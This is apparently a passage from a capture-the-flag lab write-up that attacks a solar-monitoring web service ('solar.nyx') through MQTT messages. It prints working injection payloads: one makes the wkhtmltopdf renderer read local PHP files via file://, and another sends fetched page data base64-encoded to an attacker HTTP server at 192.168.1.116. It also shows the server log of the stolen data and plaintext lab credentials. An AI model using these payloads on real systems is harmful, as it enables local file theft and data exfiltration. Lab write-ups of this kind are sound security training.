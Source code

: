 We can observe that these documents are created with `wkhtmltopdf 0.12.6.1`, which has the CVE `CVE-2022-35583`, but this won't be the case here.

We attempted an LFI, but we couldn't access the `/etc/passwd` file, although we succeeded with some PHP files from the web services.

### Step 1

We sent the following `JSON` to the `record` topic using the MQTT client with the `admin:tJH8HvwVwC57BR6CEyg5` user to attempt reading the `/var/www/solar.nyx/records/index.php` file from the server:

```json
{
  "time": "2024-07-13T00:07:36.621Z",
  "user": {
    "name": "JulianAdm",
    "role": "admin"
  },
  "solar": 232,
  "consumed": 223,
  "grid": -9,
  "chart": "\"><script>\np='/var/www/solar.nyx/records/index.php';\nx=new XMLHttpRequest;\nx.onerror=function(){{document.write('<p>'+p+' not found')}};\nx.onload=function(){{document.write('<p>'+p+'</p><div style=\"word-break: break-all;max-width:90%;\">'+btoa(this.responseText)+'</div>')}};\nx.open(\"GET\",\"file://\"+p);x.send();\n</script><x=\""
}
```

We can modify the variable `p='/var/www/solar.nyx/records/index.php'` to select other files.

We verified that the payload was correctly sent to the `record` topic from the MQTT client.

### Step 2

We retrieved the list of recent `/records/` on our HTTP service by sending the following JSON to the `data` topic:

```json
{
  "solarEnergy": "<img src=x onerror=\"(async () => { location.href='http://192.168.1.116/?data='+btoa(String.fromCharCode(...new Uint8Array(await (await fetch('/records/')).arrayBuffer())));})(); \" />",
  "consumedEnergy": 15
}
```

We decoded the base64 from the received `data` parameter:

```bash
$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.1.168 - - [03/Sep/2024 02:04:35] "GET /?data=PCFET0NUWVBFIGh0bWw+CjxodG1sPgoKPGhlYWQ+CiAgICA8dGl0bGU ... gICAgICAgICAgICAgICAgIDwvdGFibGU+CiAgICAgICAgPGEgaHJlZj0iLi4vZGFzaGJvYXJkLnBocCIgY2xhc3M9ImxvZ291dC1saW5rIj4mbHQ7IEJhY2s8L2E+CiAgICA8L2Rpdj4KPC9ib2R5PgoKPC9odG1sPg== HTTP/1.1" 200 -
```
